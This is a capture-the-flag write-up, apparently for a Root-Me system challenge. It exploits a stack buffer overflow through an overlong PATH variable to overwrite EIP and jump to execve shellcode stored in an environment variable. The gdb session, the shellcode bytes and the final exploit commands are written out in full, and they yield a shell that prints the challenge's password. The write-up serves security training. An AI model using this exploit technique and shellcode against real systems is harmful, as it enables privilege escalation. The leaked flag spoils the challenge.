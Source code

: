 ```
$export PATH=$(/usr/bin/python -c 'print "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xdd\xcc\xbb\xaa"')



(gdb) run
Starting program: /challenge/app-systeme/ch8/ch8 
[+] Getting env...

Program received signal SIGSEGV, Segmentation fault.
0xaabbccdd in ?? ()

```

**Boom!** We found **EIP**.
No we can set **EIP** to the address of some env variable containing the shellcode.
Let's use this [shellcode](http://shell-storm.org/shellcode/files/shellcode-606.php).

```
app-systeme-ch8@challenge02:~$ export SHELLCODE=$(python -c 'print("\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")')
app-systeme-ch8@challenge02:~$ /tmp/c8/findenv
shellcode	0xbffffce2
app-systeme-ch8@challenge02:~$ export PATH=$(/usr/bin/python -c 'print "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe2\xfc\xff\xbf\xff"')
app-systeme-ch8@challenge02:~$ ./ch8 
[+] Getting env...
bash-4.4$ cat .passwd
s2$srAkdAq18q
```
--------------------------------------------------------------------------------
### Resources

[Finding environment variables with gdb to exploit buffer overflows - Stack Overflow](https://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow)